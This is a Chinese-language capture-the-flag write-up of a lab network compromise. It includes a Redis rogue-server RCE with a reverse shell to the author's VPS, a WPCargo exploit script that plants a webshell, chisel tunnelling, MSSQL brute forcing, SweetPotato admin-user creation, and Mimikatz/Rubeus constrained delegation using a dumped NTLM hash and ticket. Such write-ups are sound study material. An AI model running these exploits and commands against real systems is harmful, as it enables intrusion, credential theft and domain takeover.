```text
考察点：
redis主从复制RCE
Base64提权利用
wordpress cargo_rce
mssqlserver爆破
服务权限账户的提权及约束委派攻击
```



fscan扫描，发现存在redis未授权访问，连接看看



[redis相关漏洞](https://www.freebuf.com/articles/web/249238.html)

版本是5.0.12，想尝试直接向网站根目录写webshell，但是/var/www/html不存在，结合网站显示信息，nginx+centos，推测网站根目录是/usr/share/nginx/html/，这个目录存在，但是没法SAVE。放弃写webshell。

结合版本号，打redis主从复制(4.x\~5.0.5)

## redis主从复制RCE

[工具](https://github.com/n0b0dyCN/redis-rogue-server)

```bash
vps:
>python redis-rogue-server.py --rhost <靶机ip> --lhost <vps的ip> --lport 9001
>nc -lvvp 9001
>r  #反弹shell模式
>vps的ip
>vps的端口
```

拿到shell后用py起个伪终端

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



找到了flag01，但是权限不够，提权

## base64提权利用

linux提权整理可以参考 [initial 这篇文章的提权部分](https://x-feixia.github.io/p/initial/)

```bash
find / -perm -u=s -type f 2>/dev/null
```



发现base64，可以直接用他读flag01。做到这环境崩了一次，重置了一下靶机，打redis主从复制环境很容易崩

```bash
b64poc：
base64 "/home/redis/flag/flag01" | base64 --decode
```



## 横向

靶机没有`ifconfig`，可以用`netstat -ano`



准备横向，用wget直接下载fscan和chisel（或者用py在vps上起一个web服务），这里最好下到`/tmp`目录，其他目录可能不会有写权限。然后fscan扫描



发现`2.18`挂着wordpress。`2.3，2.16，2.34`为域机器。目前控制的靶机是`2.7`

用`chisel+proxifier`搭隧道，先打2.18

```bash
搭隧道：
vps端：
> ./chisel server --reverse -p 9991 --host 0.0.0.0
靶机端：
> /chisel client <vps_ip:port> R:0.0.0.0:1080:socks

然后在proxifier上来一个走<vps_ip:1080>的socks5通道。这样就可以在自己物理机访问到内网了
```

## wordpress cargo_rce



无影感觉没扫出来东西，搜了一下了解到有`wpscan`这样的扫描工具，kali自带，配置下proxychains去扫一下

wordpress的官方目录就有6万个插件，wp相关的漏洞基本都是与其插件相关



注意到wpscan扫到了wpcargo插件，搜到了官方poc：[WPCargo < 6.9.0 - Unauthenticated RCE](https://wpscan.com/vulnerability/5c21ad35-b2fb-4a51-858f-8ffff685de4a/)

这个插件包含一个文件，允许让没认证的攻击者写php文件到任意位置。

```python
import sys
import binascii
import requests

# This is a magic string that when treated as pixels and compressed using the png
# algorithm, will cause <?=$_GET[1]($_POST[2]);?> to be written to the png file
payload = '2f49cf97546f2c24152b216712546f112e29152b1967226b6f5f50'

def encode_character_code(c: int):
    return '{:08b}'.format(c).replace('0', 'x')

text = ''.join([encode_character_code(c) for c in binascii.unhexlify(payload)])[1:]

destination_url = 'http://127.0.0.1:8001/'
cmd = 'ls'

# With 1/11 scale, '1's will be encoded as single white pixels, 'x's as single black pixels.
requests.get(
    f"{destination_url}wp-content/plugins/wpcargo/includes/barcode.php?text={text}&sizefactor=.090909090909&size=1&filepath=/var/www/html/webshell.php"
)

# We have uploaded a webshell - now let's use it to execute a command.
print(requests.post(
    f"{destination_url}webshell.php?1=system", data={"2": cmd}
).content.decode('ascii', 'ignore'))
```



上传webshell成功，且执行`ls`成功

接下来准备蚁剑连接，注意该poc的利用方式是`system`非`eval`，这种命令执行的webshell蚁剑连接的时候，连接类型要选择`cmd_linux`



连接之后翻了下没直接看到flag，找配置文件看看。wordpress的配置文件名字为`wp-config.php`，在网站根目录发现了这个文件，且包含数据库账密

```php
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'WpuserEha8Fgj9' );

/** Database hostname */
define( 'DB_HOST', '127.0.0.1' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

拿账号密码，用蚁剑去连接下，注意数据库地址不要写公网IP，配置文件设定了127.0.0.1，通常mysql服务器也只监听127.0.0.1





上来很明显有一个flag02，执行下这个查询语句得到第二个flag



## mssqlserver爆破

注意到还有一个表在提示我们，执行后查到了一些密码。导到本地先

回头看内网fscan扫描结果，留意到2.16是`mssqlserver`

用工具去爆一下，mssqlserver的核心账户名为`sa`(system administrator)

爆了一下没爆出来，发现是导出的数据只有20条，改下查询语句，把limit直接删了。



ok爆到了。用[MDUT](https://github.com/DeEpinGh0st/MDUT-Extend-Release/releases)连接



## 甜土豆提权



连接后记得激活所有组件，然后就可以上传甜土豆到`C:/user/Public`

当前是服务账户，可以用甜土豆提权



没有回显，很奇怪··不知是不是编译问题，但是后面创建用户是可以创的。



目标机器开着3389，尝试创建个账户去RDP，记得proxifier给`mstsc.exe`配置走socks

```bash
C:/Users/Public/SweetPotato.exe -a "net user fks1fks@123 /add"
C:/Users/Public/SweetPotato.exe -a "net localgroup administrators fks1 /add"

这里这样执行了两次没管用，换了种方式，最终成功了，但不确定哪句poc生效
C:\Users\Public\SweetPotato.exe -a "cmd /c net localgroup administrators fks1 /add > C:\Users\Public\result.txt"
```



连上来后依旧是管理员目录下放着flag。

总结下，2.7，2.18，2.16，2.34我们已经拿下，按理说最后一个flag也就是在2.3，该机器也作为域控

## 约束委派攻击

[参考文章点击跳转](https://xz.aliyun.com/news/12189#toc-6)



传个`minikatz`抓下信息

```text
>privilege::debug
>sekurlsa::logonpasswords
```



```text
* NTLM     : 9fc154f1f28161781c64123e08832881
```

用[rebeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)工具去申请该用户的TGT票据

```text
Rubeus.exe asktgt /user:MSSQLSERVER$ /rc4:9fc154f1f28161781c64123e08832881 /domain:xiaorang.lab /dc:DC.xiaorang.lab /nowrap
```



运行后得到base64加密后的TGT票据

再注入票据

```text
Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:CIFS/DC.xiaorang.lab /dc:DC.xiaorang.lab /ptt /ticket:doIFmjCCBZagAwIBBaEDAgEWooIEqzCCBKdhggSjMIIEn6ADAgEFoQ4bDFhJQU9SQU5HLkxBQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMeGlhb3JhbmcubGFio4IEYzCCBF+gAwIBEqEDAgECooIEUQSCBE0RLjkELgAg4CRvzJPwRU3dSsI0xHJszYHhR7oYOwzXRRAXx/9ZmMCncC8olylpTf13nwKKVw81kIyRkpeeeKbd8Q4uvStGQtashXLG2Eogccr2nTT5r3gXsDiSiULfTmTpmap2fg2jxMyfEYLsmHa4dWtPbpc7nMwDR7PssvOrPmd/CZem/EhwMi4bwtAb1+Sum1o3gJL8RvB9JqA4Gg57D/8hPQBxCntQAMpyUcaBmSmTb4wMmzzZ2oVequv30PY1blYjIZlSlnWOhtnzgKNGppFeZpcbKI244lYfa2kAYNivfZxniQBONHJIngwKaxXhdFRowIC0hyxwj8fJEFmJCqZg6BryTEm0cv6dpqedOvCYjdyCAC9zrE6G8LCFBHhm6wu8LJ64Zuq9yMFQG/eNHdodjVdlVmCrI/yPzF22nbpfJx7Fc9p4Kv0+9dF+1gCXoc69T411Vj3bvzZBwGzlo/yxLx8gmx4+ii0MKvjat4m8+np18J7R2ON4dVgzl9IG0+JTMnqtX8tuLEqyPL0t9rnpvhjWJe0Y7CDEJXbFLYrBq+TkmmolLDXwVdD8G5vuSIEyZIjmPBQ08SFfkCsIoza67rqXcZ1uGcmFfli9WngyG1SSjnUjpubcFsGsYaz1WN75xZxtTukqqIymtM1yl8xLlbhChJfI2Al1REtWKpOqNNUEo+QHTsJuVagw+leYX9GqJyP9MONRSWp93D4iNYoagPF3pTSoeUJeBtqx3V+fS6mVvDAovk6PyFVNmcHSgct18EmyXXVTbgRICezKNcx3lRe+k2DTWuoCR+jD5bazGDtHRUE9p/J4GuYWRtpj1t/jaRsZggruS9EiZO7VH5sCoHjOzdmnY/DJPl1UJZeQjq0Yx9xW4YFTbnSXfWjwIx/sNiuLxcsZrG84TuSYyrY2o1U7qiAa9Th/943Ia7Ioef3WmoUHmUkZGcwT/Yo5ibEAvGUecQaqHFpQM7LoqfBceuP33NFXKv1cK7/T+mfQ9VCNLhwczlcElFNP0CIIe7CE7qA6nQ/pWwkQghe28kG4G89pqOmX0dgt98F8jPK7QbSY0kM15J9lCxSA8uErwaDLBbQkcPuhGnU1zVUlQgmE5YDkVQzOQ/u6uhYwkvlNuieJn7IfsUh3auG7b/k2jnapwIuSmC4mmme/60p6QUEECzHWZ05PexCW5qBYo0gRrl/QJTcAmNf59jnCv2Kntfhgg4Rdda/IDHvB43DIqQTvj9I5vy6S1UefNq8bYKJ8bUGQFWvQDif1G9SYuG6hsDmearN+jqNN9qeXp99peuXk7y+vU1OKIPIMmGN0XXLjpwCuPE8UMI8xa4ElaMGk05wNRymRy2MuxH8rdpixpA8vMtHYI5m6lsiN+pY8EoZOCyO5okwjntM+SNty3x7XO1yQkV81UDG2tncEQTA0eoJSxVaX6AfRdnGZnk3Q0/gb55d548FPJdIphf2jgdowgdegAwIBAKKBzwSBzH2ByTCBxqCBwzCBwDCBvaAbMBmgAwIBF6ESBBCAsUauP8jlTSMeoRKSk2LSoQ4bDFhJQU9SQU5HLkxBQqIZMBegAwIBAaEQMA4bDE1TU1FMU0VSVkVSJKMHAwUAQOEAAKURGA8yMDI2MDkwNTEwMTQ0NFqmERgPMjAyNjA5MDUyMDE0NDRapxEYDzIwMjYwOTEyMTAxNDQ0WqgOGwxYSUFPUkFORy5MQUKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHhpYW9yYW5nLmxhYg==
```



执行成功，拿到了域管权限，直接去查看第四段flag

```text
type \\DC.xiaorang.lab\c$\Users\Administrator\flag\flag04.txt
```




